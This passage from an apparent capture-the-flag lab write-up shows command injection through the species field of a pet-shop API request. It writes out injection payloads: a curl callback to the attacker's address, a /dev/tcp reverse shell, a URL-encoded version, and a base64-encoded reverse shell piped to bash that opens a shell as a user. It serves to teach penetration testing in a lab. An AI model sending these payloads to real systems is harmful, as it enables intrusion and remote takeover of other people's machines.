 Intercept an *Add a Pet* request with BurpSuite and inject a shell command into the species field. Sending the payload with a tempered species field confirms command injection by `curl`ing the attacker's machine.
```json
{
    "name":"alterego",
    "species":"cat; curl 10.10.14.100:8000 #"
}
```
![rce](screenshots/rce.png)

## Exploitation and User.txt
Sending the the following paylaod fails to drop a reverse shell.
```json
{
    "name":"alterego",
    "species":"cat; sh -i >& /dev/tcp/10.10.14.100/9999 0>&1 #"
}
```

Since the failure may be due to lots of special characters, it may need to be URL encoded, however this fails as well.
```json
{
    "name":"alterego",
    "species":"cat%3b+sh+-i+>%26+/dev/tcp/10.10.14.100/9999+0>%261+%23"
}
```

Eventually, base64 encoding the payload successfully drops a reverse shell as the user *patrick*.
```json
{
    "name":"alterego",
    "species":"cat; echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTAwLzk5OTkgMD4mMQ== | base64 -d | bash #"
}
```